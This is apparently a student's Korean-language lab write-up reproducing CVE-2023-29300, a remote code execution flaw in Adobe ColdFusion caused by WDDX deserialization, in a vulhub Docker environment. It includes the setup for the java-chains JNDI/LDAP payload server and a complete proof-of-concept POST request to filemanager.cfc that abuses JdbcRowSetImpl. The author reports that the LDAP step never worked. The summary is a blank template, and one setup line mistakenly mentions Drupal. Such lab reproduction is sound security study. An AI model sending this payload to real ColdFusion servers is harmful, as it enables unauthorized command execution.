



# Adobe ColdFusion XML 역직렬화로 인한 RCE (CVE-2023-29300)
| WHS 3기 이유진

## 개요
Adobe ColdFusion은 JJ Allaire가 1995년에 만든 상용 고속 웹 애플리케이션 개발 컴퓨팅 플랫폼이다.
Adobe ColdFusion 2018 업데이트 16(및 이전 버전), 2021 업데이트 6(및 이전 버전) 및 2023.0.0.330468(및 이전 버전)은 신뢰할 수 없는 데이터의 역직렬화 취약점의 영향을 받습니다. 공격자는 임의의 세터 함수를 호출하여 임의의 명령을 실행할 수 있다.

## 환경 구축
docker compose up -d 를 실행하여 테스트 환경을 실행
your-ip:8000 에 접속하여 drupal 설치

### docker-compose.yml
```yml
services:
  coldfusion:
    image: vulhub/coldfusion:2018.0.15
    ports:
      - "8500:8500"
      - "5005:5005"
    environment:
      - password=vulhub
      - acceptEULA=YES
```

### 테스트 환경 실행
```
docker compose up -d
```

### `http://localhost:8500/` 에 접속한 page 화면



### `http://your-ip:8500/CFIDE/administrator/index.cfm` 에 접속하여 `vulhub`으로 로그인

you can install the Adobe ColdFusion successfully.

### java Chain 설치하기
```
git clone https://github.com/vulhub/java-chains
cd java-chains

 docker run -d \
  --name java-chains \
  --restart=always \
  -p 8011:8011 \
  -p 58080:58080 \
  -p 50389:50389 \
  -p 50388:50388 \
  -p 3308:3308 \
  -p 13999:13999 \
  -p 50000:50000 \
  -p 11527:11527 \
  -e CHAINS_AUTH=true \
  -e CHAINS_PASS= \
  javachains/javachains:latest

  docker logs java-chains | grep -i password # 비밀번호 확인하기
```

http://localhost:8011/ 로 java chain 사용 가능 !
실행 명령어를 치고 `generate`를 누르면 LDAP URL 즉, payload url이 생성이된다.
- ex) `ldap://127.0.0.1:50389/f29660`

## PoC 
ColdFusion 서버에서 임의 코드를 실행할 수 있는 유효한 가젯을 찾는다.
- 가장 일반적인 가젯은 com.sun.rowset.JdbcRowSetImplJNDI 주입을 사용하여 명령을 실행


`touch /tmp/success` 를 넣은 url을 만들어 주고 post 요청을 보낸다.

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:50389/597b9f</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

| __LDAP 연결에서 문제가 있어 9시간 도전끝에.. 이해만 하고 넘어가기로 결정 하고 새로운 주제로 진행하였습니다.__ [CVE-2024-4367](../../pdfjs/CVE-2024-4367/)


## 정리
~한 취약점이다. ~한 조치가 필요하다.

## 출처
https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300
